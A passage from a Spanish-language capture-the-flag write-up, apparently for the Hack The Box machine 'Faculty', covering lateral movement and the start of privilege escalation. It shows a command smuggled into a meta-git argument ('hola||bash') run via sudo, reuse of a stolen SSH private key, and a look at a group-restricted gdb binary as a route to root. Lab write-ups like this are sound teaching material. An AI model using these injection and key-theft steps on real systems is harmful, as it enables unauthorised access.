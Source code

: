 ```bash
sudo -u developer /usr/local/bin/meta-git clone 'hola||bash'
```

El repo **hola** no existe, entonces ejecutará una `bash` como el usuario **developer**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/faculty/480bash_gbyoloSH_exploitingMetaGIT_developerSH.png" style="width: 100%;"/>

YYYYY efectivamente obtuvimos nuestra terminal como el usuario `developer` (:

En su **home** tiene la carpeta `/.ssh` y dentro su llave privada (`id_rsa`), recordemos que podemos usar la llave privada como "contraseña" para intentar obtener una terminal, solo debemos copiarnos su contenido, crear un archivo en nuestro sistema con él, darle permisos y ejecutar el **SSH**:

```bash
chmod 600 developer.id_rsa
ssh developer@10.10.11.169 -i developer.id_rsa
```

Y así ya obtendríamos una terminal separada de los procesos de **gbyolo** y **meta-git**. Podemos hacerla linda (en tal caso) jugando con la variable [PS1](https://linuxhint.com/bash-ps1-customization/).

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Arriba vimos algo llamativo al listar los grupos a los que está asociado el usuario **developer** ¿si viste?:

```bash
developer@faculty:~$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```

Los dos son juguetones, veamos si existen ítems relacionados con ellos:

```bash
find / -group faculty 2>/dev/null
```

Nada, pero con **debug** existe un objeto:

```bash
developer@faculty:~$ find / -group debug 2>/dev/null
/usr/bin/gdb
```

Y solo **root** y los usuarios dentro del grupo **debug** pueden ejecutarlo:

```bash
developer@faculty:~$ ls -la /usr/bin/gdb
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
```

> **GDB** es un depurador, lo que permite es inspeccionar lo que hace un programa en su ejecución. [Como usar GDB](https://lihuen.linti.unlp.edu.ar/index.php/C%C3%B3mo_usar_GDB).

Como el owner del binario es **root**, pero no vemos que sea **SUID** o que podamos ejecutarlo como él mediante **sudo** (para intuir una escalada de privilegios), podemos pensar que debe haber algo (que debemos encontrar) que nos permitirá manipular permisos, objetos, acciones, o yo qué sé. (Por ejemplo, el **uid** (como cuando le agregamos el permiso `+s` a la `/bin/bash` para que al ejecutarla con el parámetro `-p` sea lanzada como el owner del objeto (o sea **root**)))
